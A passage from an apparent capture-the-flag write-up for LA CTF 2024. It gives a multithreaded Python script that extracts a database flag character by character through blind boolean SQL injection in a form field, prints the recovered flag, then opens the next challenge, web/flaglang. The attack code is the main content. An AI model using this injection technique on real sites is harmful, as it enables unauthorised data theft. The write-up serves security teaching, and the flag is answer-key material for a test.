 ```
payload_template = 'name=abc&guests=No+guests+at+all&neatness=Straighten+up+before+bed&sleep=midnight-2am&awake=8-10am\'AND substr((select flag from flag),{},1)=\'{}'

characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_+=[]{}|;:,.<>?/'

flag = ""
lock = threading.Lock()

def make_request(i, char):
    global flag
    payload = payload_template.format(i, char)
    response = requests.post(url, headers=headers, data=payload)
    
    if "Finley Orozco" in response.text:
        with lock:
            print(flag)
            flag += char

num_threads = 10

threads = []

for i in range(1, 101):
    for char in characters:
        thread = threading.Thread(target=make_request, args=(i, char))
        threads.append(thread)

        if len(threads) == num_threads:
            for thread in threads:
                thread.start()

            for thread in threads:
                thread.join()

            threads = []

print(flag)
```

flag: `lactf{us3_s4n1t1z3d_1npu7!!!}`



# web/flaglang - 607 solves/ 133 points
## Description
```
Do you speak the language of the flags?
Link: flaglang.chall.lac.tf
```
Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/lactf2024/flaglang.zip)
